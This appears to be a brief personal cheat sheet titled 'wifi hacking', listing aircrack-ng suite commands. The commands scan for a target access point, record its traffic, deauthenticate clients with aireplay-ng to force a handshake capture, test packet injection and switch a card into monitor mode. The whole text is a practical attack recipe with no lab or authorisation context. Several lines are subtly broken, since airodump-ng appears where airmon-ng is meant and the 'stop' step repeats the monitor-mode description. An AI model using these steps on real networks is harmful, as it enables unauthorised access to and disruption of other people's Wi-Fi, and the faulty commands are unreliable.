 ----------------------------------------------------------------------
wifi hacking
----------------------------------------------------------------------
# identify target network
    `airodump-ng <interface>`
    
# just observer target network on its channel and write to file
    `airodump-ng <interface> --bssid <AP mac> -c <channel number> -w <filename>`
    `-essid <AP name>` if you want to use that
    
# wait for a handshake for deauth one
    
    

    


`airodump-ng <interface> -w <filename>`
    runs on interface and writes to a file
`airodump-ng -d <bssid> -a`
    only shows bssid and associated clients
`aireplay-ng -0 <number> -a <AP mac> -c <client mac> ath0`
    will deauth client from ap a number of times
`aireplay-ng -9 <interface>`
    test for packet injection 
    
    
# set up wireless interface card
`airmon-ng check kill`
    to stop other services 1st

`airodump-ng start <interface>`
    put card into mon mode
    
`airodump-ng stop <interface mon>`
    put card into mon mode
